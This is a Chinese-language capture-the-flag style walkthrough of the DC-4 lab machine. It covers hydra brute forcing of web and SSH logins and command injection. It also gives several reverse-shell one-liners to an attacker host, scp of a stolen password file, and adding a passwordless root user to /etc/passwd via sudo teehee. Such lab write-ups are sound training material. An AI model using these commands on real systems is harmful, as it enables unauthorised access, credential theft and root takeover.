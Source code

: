 ```yaml
---
layout: post
title: DC-4
subtitle: DC-4
date: 2023-07-10 10:32
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - DC系列
published: true
number headings: first-level 2, max 4, 1.1., auto
---
```


## 1. 信息搜集

扫描网段发现主机 `192.168.163.135`

![image.png](https://img.ghostliner.top/Mpx57R.png)

nmap 扫描端口，发现 http 和 ssh 端口

![image.png](https://img.ghostliner.top/tisEXh.png)

访问网站尝试登录失败，目录扫描无重要内容，尝试爆破

## 2. 渗透测试

### 2.1. 登录密码爆破

bp 抓包查看数据格式，可用 bp 爆破或 `hydra` 爆破

![image.png](https://img.ghostliner.top/xWvdSB.png)

使用 `hydra` 爆破

```shell
hydra 192.168.163.135 -l admin -P /usr/share/wordlists/rockyou.txt http-post-form "/login.php:username=^USER^&password=^PASS^:S=logout" -F
```

![image.png](https://img.ghostliner.top/g5jGyg.png)

获取到密码：happy，登录发现命令执行页面，抓包测试发现存在漏洞

![image.png](https://img.ghostliner.top/qvPHb3.png)

![image.png](https://img.ghostliner.top/Xv5uzD.png)

### 2.2. 反弹 shell

上传反弹 shell 命令

```shell
nc -nv 192.168.163.135 -e /bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -nv 192.168.163.132 4444 > /tmp/f
bash -i >& /dev/tcp/192.168.163.132/4444 0>&1
ncat -nv 192.168.163.132 4444 -e /bin/bash
socat TCP:192.168.163.132:4444 EXEC:/bin/bash
```

连接成功

![image.png](https://img.ghostliner.top/6oyW71.png)

查看 home 目录，发现 jim 用户下 `old-passwords.bak`文件

![image.png](https://img.ghostliner.top/uSkXiV.png)

直接复制或使用 scp 传给 kali，kali 需要开启 SSH 服务，允许密码登录

```shell
scp -P 2233 old-passwords.bak kali@192.168.163.132:~
# -P 2233 指定SSH端口2233
# :~ 将文件放到目标机用户家目录
```

### 2.3. SSH 爆破

使用 `hydra` 爆破 SSH

```shell
hydra 192.168.163.135 -l jim -P old-passwords.bak ssh
```

![image.png](https://img.ghostliner.top/g6A9al.png)

密码：jibril04，`su jim`切换用户成功，查看 mbox 文件发现是邮件，查找是否有其他邮件

![image.png](https://img.ghostliner.top/71gQ68.png)

在 `/var/mail` 目录下发现邮件，其中有 charles 发送给 jim 的密码邮件

用户名：`charles` <mark>注意是小写</mark>
密码： `^xHhA&hvim0y`

![image.png](https://img.ghostliner.top/g8ZxjX.png)

`su charles` 切换用户成功后，查看用户目录下无内容，`sudo -l` 尝试提权

![image.png](https://img.ghostliner.top/NMUSqW.png)

### 2.4. 提权

teehee 提权

```shell
echo "shell::0:0:::/bin/bash" | sudo teehee -a /etc/passwd
su shell
```

![image.png](https://img.ghostliner.top/2Ha8ej.png)
